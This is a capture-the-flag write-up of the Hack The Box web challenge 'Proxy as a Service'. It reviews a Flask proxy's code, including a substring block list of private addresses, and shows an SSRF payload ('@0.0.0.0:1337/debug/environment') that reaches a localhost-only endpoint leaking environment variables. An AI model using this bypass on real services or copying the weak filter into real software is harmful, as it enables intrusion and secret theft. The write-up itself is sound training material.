 ```yaml
---
title: Proxy as a Service - Hack The Box
date: 2024-11-24
---
```


# Proxy as a Service

![Proxy as a Service - thumbnail](/ctf/hack-the-box/challenges/web/proxy-as-a-service/thumbnail.png)

## Challenge description

Experience the freedom of the web with ProxyAsAService. Because online privacy and access should be for everyone,
everywhere.

## Challenge Overview

The challenge presents a web application that acts as a proxy service. Users can input subreddit paths, and the
application fetches and displays the corresponding content.

## Code Review

### Dockerfile

The application’s `Dockerfile` reveals that the `FLAG` is stored as an environment variable:

```Dockerfile
ENV FLAG=HTB{f4k3_fl4g_f0r_t3st1ng}
```

### routes.py

The key functionality resides in the `routes.py` file. There are two primary endpoints to consider:

#### 1. `/debug/environment`

This endpoint exposes all environment variables, including the `FLAG`. However, access is restricted by the
`is_from_localhost` decorator, which ensures that only requests from `127.0.0.1` can reach this endpoint.

```python
@debug.route('/environment', methods=['GET'])
@is_from_localhost
def debug_environment():
    environment_info = {
        'Environment variables': dict(os.environ),
        'Request headers': dict(request.headers)
    }
    return jsonify(environment_info)
```

#### 2. `/`

This endpoint proxies requests to subreddits. It takes a `url` parameter and appends it to the target URL. The request
is then processed by the `proxy_req` function:

```python
@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
    url = request.args.get('url')

    if not url:
        cat_meme_subreddits = [
            '/r/cats/',
            '/r/catpictures',
            '/r/catvideos/'
        ]
        random_subreddit = random.choice(cat_meme_subreddits)
        return redirect(url_for('.proxy', url=random_subreddit))
    
    target_url = f'http://{SITE_NAME}{url}'
    response, headers = proxy_req(target_url)

    return Response(response.content, response.status_code, headers.items())
```

This endpoint interacts with the `proxy_req` function, which applies two restrictions:

- The request must pass the `is_safe_url` check.
- The response URL must also pass the `is_safe_url` check.

### Key Restrictions

#### `is_from_localhost` Decorator

```python
def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip
```

This decorator verifies that the `request.remote_addr` is `127.0.0.1`. Requests from any other IP are forbidden.

#### `is_safe_url` Function

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']
def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True
```

The `is_safe_url` function checks the URL against a list of restricted substrings (`RESTRICTED_URLS`). If a restricted
substring is found, the request is blocked.

## Exploitation

### Objective

To retrieve the `FLAG`, we must access the `/debug/environment` endpoint. This requires bypassing:

1. The `is_from_localhost` decorator.
2. The `is_safe_url` check enforced by `proxy_req`.

### Bypassing `is_from_localhost`

The `is_from_localhost` decorator validates the `remote_addr` field of the incoming request. Since we cannot spoof our
IP address directly, we use the proxy mechanism to send a request to `127.0.0.1` indirectly.

### Bypassing `is_safe_url`

The `is_safe_url` function prevents direct access to restricted URLs. However, we can exploit the way the `url`
parameter is appended to `SITE_NAME`. By crafting a URL with the format:

```
@0.0.0.0:1337/debug/environment
```

This payload works because:

1. The `@` symbol in URLs is interpreted as authentication information, allowing us to bypass URL validation.
2. The `SITE_NAME` variable prepends the hostname (`http://`) before appending the payload, effectively transforming the
   final URL into:

```
http://0.0.0.0:1337/debug/environment
```

This bypasses the restrictions in `is_safe_url` while routing the request to `127.0.0.1`.

### Payload

To execute the exploit, we send the following request:

```
/?url=@0.0.0.0:1337/debug/environment
```

### Result

The response includes the environment variables, including the `FLAG`:

```json
{
    "Environment variables": {
        "FLAG": "HTB{f4k3_fl4g_f0r_t3st1ng}",
        "GPG_KEY": "7169605F62C751356D054A26A821E680E5FA6305",
        "HOME": "/root",
        "HOSTNAME": "a4bfb5eead77",
        "PATH": "/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
        "PYTHONDONTWRITEBYTECODE": "1",
        "PYTHON_SHA256": "086de5882e3cb310d4dca48457522e2e48018ecd43da9cdf827f6a0759efb07d",
        "PYTHON_VERSION": "3.13.0",
        "SUPERVISOR_ENABLED": "1",
        "SUPERVISOR_GROUP_NAME": "flask",
        "SUPERVISOR_PROCESS_NAME": "flask",
        "TERM": "xterm",
        "WERKZEUG_SERVER_FD": "3"
    },
    "Request headers": {
        "Accept": "*/*",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "keep-alive",
        "Cookie": "JSESSIONID=8530BE014E3829AD1C9CA27C9DBFA3F7; eu_cookie={%22opted%22:true%2C%22nonessential%22:true}; session=eyJjc3JmX3Rva2VuIjoiNzY3NDgzOTAyOTgzZWU5ZjY0YzNlNWIyZWM3MTJiZTNkN2E0Mzg0ZSJ9.Zz3ZSA.iRjAZ3aMVfDhnx6uYyQ8jpO5edY",
        "Host": "0.0.0.0:1337",
        "User-Agent": "python-requests/2.32.3"
    }
}
```

We successfully retrieved the fake flag `HTB{f4k3_fl4g_f0r_t3st1ng}`.
We can now use the same technique to retrieve the real flag on the HTB server.

![Proxy as a Service - pwned](/ctf/hack-the-box/challenges/web/proxy-as-a-service/pwned.png)

## References

- [Flask Documentation](https://flask.palletsprojects.com/en/stable/)
- [Python function wrappers](https://docs.python.org/fr/3/library/functools.html#functools.wraps)
